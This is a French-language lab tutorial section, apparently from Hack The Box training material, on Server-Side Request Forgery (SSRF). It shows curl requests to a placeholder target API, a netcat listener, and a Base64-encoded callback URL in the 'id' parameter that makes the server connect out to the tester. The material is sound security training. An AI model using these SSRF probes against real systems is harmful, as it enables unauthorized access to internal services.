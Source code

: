 SSRF
* * * * *

Les attaques Server-Side Request Forgery (SSRF), répertoriées dans le top 10 de l'OWASP, nous permettent d'abuser des fonctionnalités du serveur pour effectuer des demandes de ressources internes ou externes au nom du serveur. Nous devons généralement fournir ou modifier les URL utilisées par l'application cible pour lire ou soumettre des données. L'exploitation des vulnérabilités de SSRF peut entraîner :

-   Interagir avec des systèmes internes connus
-   Découverte des services internes via des scans de port
-   Divulgation de données locales/sensibles
-   Inclure des fichiers dans l'application cible
-   Fuite de hachages NetNTLM à l'aide de chemins UNC (Windows)
-   Réaliser l'exécution de code à distance

Nous pouvons généralement trouver des vulnérabilités SSRF dans des applications ou des API qui récupèrent des ressources distantes. Notre module [Server-side Attacks](https://academy.hackthebox.com/module/details/145) couvre SSRF en détail.

Comme nous l'avons mentionné à plusieurs reprises, cependant, nous devrions fuzzer chaque paramètre identifié, même s'il ne semble pas chargé de récupérer des ressources distantes.

Évaluons ensemble une API vulnérable à SSRF.

Allez à la fin de cette section et cliquez sur `Click here to spawn the target system!`ou sur l' `Reset Target`icône . Utilisez la Pwnbox fournie ou une machine virtuelle locale avec la clé VPN fournie pour atteindre l'API cible et suivez-la.

Supposons que nous évaluons une telle API résidant dans `http://<TARGET IP>:3000/api/userinfo`.

Interagissons d'abord avec lui.

```
dsgsec@htb[/htb]$ curl http://<TARGET IP>:3000/api/userinfo
{"success":false,"error":"'id' parameter is not given."}

```

L'API attend un paramètre appelé *id* . Puisque nous souhaitons identifier les vulnérabilités de SSRF dans cette section, configurons d'abord un écouteur Netcat.

```
dsgsec@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...

```

Ensuite, spécifions `http://<VPN/TUN Adapter IP>:<LISTENER PORT>`comme valeur du paramètre *id* et effectuons un appel API.

```
dsgsec@htb[/htb]$ curl "http://<TARGET IP>:3000/api/userinfo?id=http://<VPN/TUN Adapter IP>:<LISTENER PORT>"
{"success":false,"error":"'id' parameter is invalid."}

```

Nous remarquons une erreur indiquant que le paramètre *id* n'est pas valide, et nous remarquons également qu'aucune connexion n'est établie avec notre écouteur.

Dans de nombreux cas, les API attendent des valeurs de paramètre dans un format/encodage spécifique. Essayons d'encoder en Base64 `http://<VPN/TUN Adapter IP>:<LISTENER PORT>`et d'effectuer à nouveau un appel d'API.

```
dsgsec@htb[/htb]$ echo "http://<VPN/TUN Adapter IP>:<LISTENER PORT>" | tr -d '\n' | base64
dsgsec@htb[/htb]$ curl "http://<TARGET IP>:3000/api/userinfo?id=<BASE64 blob>"

```

Lorsque vous effectuez l'appel API, vous remarquerez qu'une connexion est établie avec votre écouteur Netcat. L'API est vulnérable à SSRF.

```
dsgsec@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [<VPN/TUN Adapter IP>] from (UNKNOWN) [<TARGET IP>] 50542
GET / HTTP/1.1
Accept: application/json, text/plain, */*
User-Agent: axios/0.24.0
Host: <VPN/TUN Adapter IP>:4444
Connection: close

```

Si le temps le permet, essayez de fournir aux API des entrées dans différents formats/encodages.
